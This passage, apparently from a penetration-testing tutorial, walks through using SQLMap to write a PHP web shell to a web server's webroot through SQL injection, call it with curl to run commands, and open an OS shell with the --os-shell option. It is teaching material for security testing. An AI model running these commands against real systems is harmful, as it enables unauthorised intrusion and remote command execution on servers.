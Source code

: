 Now, let's attempt to write this file on the remote server, in the `/var/www/html/` directory, the default server webroot for Apache. If we didn't know the server webroot, we will see how SQLMap can automatically find it.

```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

Now, we can attempt to access the remote PHP shell, and execute a sample command:
```shell-session
$ curl http://www.example.com/shell.php?cmd=ls+-la

total 148
drwxrwxrwt 1 www-data www-data   4096 Nov 19 17:54 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```

### OS Command Execution

SQLMap utilizes various techniques to get a remote shell through SQLi, like writing a remote shell as done above, writing SQL functions that execute commands and retrieve output or even using some SQL queries that directly execute OS command, like `xp_cmdshell` in Microsoft SQL Server. To get an OS shell with SQLMap, we can use the `--os-shell` option, as follows:
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --os-shell
```

SQLMap will default to the `UNION` technique and we may not get output from the shell. We can try another technique like the `Error-based SQL Injection`:
```shell-session
$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

Note: SQLMap first asked us for the type of language used on this remote server, which we know is PHP. Then it asked us for the server web root directory, and we asked SQLMap to automatically find it using 'common location(s)'. Both of these options are the default options, and would have been automatically chosen if we added the '--batch' option to SQLMap.